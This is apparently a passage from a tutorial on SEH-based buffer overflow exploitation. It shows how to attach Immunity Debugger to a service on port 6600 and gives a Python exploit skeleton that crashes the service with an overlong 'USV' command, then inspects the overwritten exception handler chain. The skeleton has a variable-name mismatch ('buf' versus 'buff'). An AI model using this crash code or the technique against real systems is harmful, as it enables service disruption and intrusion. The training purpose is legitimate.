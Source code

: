 The listening port enables you to identify the correct process from others (`6600`).

As the application is always in a paused state after attachment, pressing run (F9) will allow you to begin experimenting with the application.

The service appears to function improperly after being restarted. Each time you work with an application, you should restart it from the console and then attach the debugger. This may facilitate the development of exploits.

We will begin with an exploit template. It has already been determined that the vulnerable command is "USV" and that it must conclude with two CRLFs. Let's launch the initial exploit to verify that we can cause the remote service to crash.

The exploit skeleton looks like this:

```python
import sys
import socket

target = "192.168.8.102"
port = 6600

buf = "A" * 2500

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
conn = s.connect((target, port))
s.send("USV " + buff + "\r\n\r\n")
s.close()
```

Launching it causes the below access violation.

![img](images/seh-based-overflow-17.png)

Since we are using the exception handler, we will need to pass the exception to the program so that it can be "handled." Before we proceed, let's examine the SEH chain using the `View -> SEH` chain option in Immunity.

![img](images/seh-based-overflow-27.png)

It appears that the SEH was duplicated. Scrolling down the stack, you should observe that Immunity has marked the location where the exception handler resides. It was replaced with our information.
